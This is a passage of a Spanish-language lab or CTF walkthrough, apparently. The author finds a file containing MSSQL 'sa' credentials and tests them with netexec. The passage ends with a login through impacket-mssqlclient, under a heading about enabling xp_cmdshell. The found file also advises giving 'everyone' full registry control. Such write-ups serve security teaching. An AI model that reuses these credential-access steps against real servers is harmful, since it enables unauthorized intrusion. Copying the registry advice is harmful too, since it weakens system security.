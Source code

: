Y ahora veamos su contenido:
```bash
cat 192.168.1.150-Compac_Empresas_SQL.txt
SQL 2017 
Instancia COMPAC 
sa 
******

ip
127.0.0.1

Tip para terminar instalaciones
1) Ejecutar seguridad de icono
Sobre el icono asegurarse que diga ejecutar como Administrador.

2) Ejecutar el comando regedit...
Buscar la llave Hkey Local Machine, luego Software, luego Wow32, Computacion en Accion...(abri pantalla con boton del lado derecho
donde dice seguridad y ver que aparezca "everyone" y darle control total
```

Parece que tenemos la contraseña para entrar al **servicio MSSQL**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="MSSQL">Conectandonos al Servicio MSSQL y Activando xp_cmdshell</h2>

Vamos a comprobar si estas credenciales sirven para entrar en el **servicio MSSQL** con la herramienta **netexec**, ya que parece que **crackmapexec** tiene problemas para comprobarlo:
```bash
netexec mssql 192.168.1.150 --port 49992 -u 'sa' -p '******' --local-auth
MSSQL       192.168.1.150  49992  DESKTOP-M464J3M  [*] Windows 10 / Server 2019 Build 19041 (name:DESKTOP-M464J3M) (domain:DESKTOP-M464J3M)
MSSQL       192.168.1.150  49992  DESKTOP-M464J3M  [+] DESKTOP-M464J3M\sa:****** (Pwn3d!)
```
Excelente, podemos conectarnos.

Lo haremos con la herramienta **impacket-mssqlclient**:
```bash
impacket-mssqlclient DESKTOP-M464J3M/sa:******@192.168.1.150 -p 49992
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DESKTOP-M464J3M\COMPAC): Line 1: Changed database context to 'master'.
[*] INFO(DESKTOP-M464J3M\COMPAC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```
Listo, estamos dentro.
